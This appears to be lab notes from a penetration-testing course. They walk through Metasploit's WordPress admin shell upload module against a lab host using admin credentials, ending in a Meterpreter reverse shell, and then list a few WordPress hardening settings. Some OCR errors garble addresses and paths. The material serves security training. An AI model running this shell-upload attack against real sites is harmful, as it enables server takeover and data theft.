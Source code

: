

```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```


```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options
```

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```


# WordPress Hardening

- **Perform Regular Updates**: modify the `wp-config.php`
```php
define( 'WP_AUTO_UPDATE_CORE', true );
```

```php
add_filter( 'auto_update_plugin', '__return_true' );
```
